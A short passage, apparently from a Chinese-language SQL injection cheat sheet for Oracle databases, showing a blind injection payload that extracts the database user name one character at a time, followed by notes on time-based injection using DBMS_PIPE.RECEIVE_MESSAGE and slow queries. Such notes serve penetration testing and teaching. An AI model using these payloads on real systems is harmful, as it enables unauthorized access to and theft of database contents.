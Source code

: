```sql
'and 1=(select decode(substr(user,1,1),'遍历参数',(1),0) from dual) --
```

## 延时注入

* 通过页面响应的状态，这里指的是响应时间，通过这种方式判断SQL是否被执行的方式，
* oracle中DBMS_PIPE.RECEIVE_MESSAGE()
* decode()与高耗时SQL操作的组合
* 可以用case，if 等方式与高耗时操作的组合：

```sql
select count(*) from all_objects
```
